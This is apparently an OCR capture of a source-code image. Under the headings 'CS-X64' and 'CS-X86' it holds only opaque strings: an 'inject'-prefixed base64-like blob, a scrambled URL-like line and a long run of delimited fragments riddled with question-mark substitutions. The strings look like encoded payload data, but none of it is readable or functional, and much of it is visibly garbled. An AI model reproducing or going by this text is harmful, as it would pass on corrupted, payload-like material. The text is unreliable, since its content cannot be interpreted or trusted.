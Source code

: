 # CS-X64

injectFaBD4+/2iYxyQO9cTKfxapknB5P31jHP+tXqq38hNc2rIDU7UwVcPocHehVXBF8E7llbLyh4tUKKBfD5PQPWxvBlp8w+xTuUGsBTuw==ebszg

# CS-X86

adminfwpum@%%wthugq#twf/HcqgrtDmxjy-lfp/esff/lcwu/hefp/nfu1#uhn?aqh=gdjejeson

bsera33|2,??3??;6,C?;10???,Q;1???4,6;1?8?,z;????22,???o;26,????n;30?,k;3??4,?k;???38,???.???;??42,c;?4??6,e;??5????0,????t;5??4,Q;????58,h;??62,??r;??66,B;????70????,u;74?,L????;7????8,?,;8??2??,e;?86,o;?90???,X?;94???,??U;????98,???K;10??2????,x;10??6,h;???1?1???0,g????;114???,V;??118,A????;12?2,???l;126??,?O???;13???0?,M;|???A????fb3?4d.?C???2,??IQX??yY6o??q9zt?CkoX??FAn??KPNk???5bp?k13J????.p????h.cxT???Qe3Q8??tnHCQ???R2ih?ud7r???Wuv?Bp????C??OuhC??E??Lv????Hx????,f???b8???e7eL???oBLlX?HY4???U???u????T??kKbkF????x5d?p?h?pqw????gVXb????VP?L8A???.WXl??Ut????COC???dWM???=rgves
